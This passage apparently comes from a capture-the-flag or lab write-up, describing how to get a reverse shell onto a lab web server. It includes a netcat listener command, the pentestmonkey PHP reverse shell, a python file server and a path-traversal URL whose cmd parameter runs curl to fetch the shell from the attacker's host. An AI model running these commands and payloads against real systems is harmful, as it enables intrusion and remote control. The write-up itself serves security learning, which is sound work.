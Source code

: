 ### 2.3 Create a Reverse Shell

Set up listener on our machine for the shell to establish a connection with:

```bash
nc -nvlp 4444
```

**Create shell code**\
I used the well known **PHP shell** from pentestmonkey which can be found at: [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) making sure to change the IP to match my workstation IP and the port number to that in the netcat listener I set up above.

![](../.gitbook/assets/monkeySHell.PNG)

**Get the shell onto the target**\
Host a python web server for target to download our reverse shell from. Ensure this is either in the same folder as the reverse shell or adjust the curl command ahead in order to reach the correct directory.

```bash
python3 -m http.server 8080 
```

In order for the target machine to save our shell locally we will use the target's curl command in the format:

```bash
curl http://10.14.23.1:8080/monkeyshell.php -o shell.php
```

This will download monkeyshell.php and using the option -o save it as shell.php in the directory the command has been run from.

Putting this curl command into our cmd parameter of our request we get the final result:

**http://10.10.150.242/?view=./dog/../../../../../../../var/log/apache2/access.log\&ext\&cmd=curl http://10.14.23.1:8080/monkeyshell.php -o shell.php**

Our python server lets us know when our target machine has downloaded our shell file:

<figure><img src="../.gitbook/assets/webdownlaod.PNG" alt=""><figcaption></figcaption></figure>
